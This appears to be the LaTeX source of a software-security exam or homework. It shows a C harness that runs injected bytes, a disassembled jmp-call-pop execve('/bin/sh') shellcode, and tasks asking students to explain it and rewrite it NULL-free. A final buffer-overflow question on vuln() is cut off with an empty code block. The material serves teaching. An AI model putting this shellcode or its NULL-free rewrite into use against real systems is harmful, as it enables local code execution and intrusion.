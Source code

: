 \documentclass{article}[9pt]
\begin{document}
\begin{enumerate}
\begin{itemize}
\item If we were to package of the bytes into a string and call it
like so:

\begin{verbatim}
int main(){
  char * code = "\x6a\x00\x68\xa8 (...)";
  char s[1024];
  strcp(s,code);
  ((void(*)(void)) s)();
}
\end{verbatim}

Would this fail or succeed in launching a shell? \textbf{Explain.}
\end{itemize}

\item (15 points) Consider the following shell code:

\begin{verbatim}
08048060 <_start>:
8048060: eb 20            jmp 8048082 <callback>

08048062 <dowork>:
8048062: 5e               pop esi
8048063: 6a 00            push 0x0
8048065: 56               push esi
8048066: ba 00 00 00 00   mov edx,0x0
804806b: 89 e1            mov ecx,esp
804806d: 89 f3            mov ebx,esi
804806f: b8 0b 00 00 00   mov eax,0xb
8048074: cd 80            int 0x80
8048076: bb 00 00 00 00   mov ebx,0x0
804807b: b8 01 00 00 00   mov eax,0x1
8048080: cd 80            int 0x80

08048082 <callback>:
8048082: e8 db ff ff ff   call 8048062 <dowork>
8048087: 2f das
8048088: 62 69 6e         bound ebp,QWORD PTR [ecx+0x6e]
804808b: 2f das
804808c: 73 68            jae 80480f6 <callback+0x74>
\end{verbatim}

\begin{itemize}
\item At the the \texttt{pop esi} instructino at address \texttt{0x8048062}, what
address will be stored in the \texttt{esi} register?

\item Explain how this shell code avoids fixed references?

\item This shell code still hass NULL bytes! Rewrite the \texttt{x86}
such that the portion of the code under \texttt{<dowork>} is NULL free.
\end{itemize}

\item (20 points) Consider the following C source code and dissambly of \texttt{vuln()}

\begin{verbatim}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>


\end{verbatim}
\end{enumerate}
\end{document}
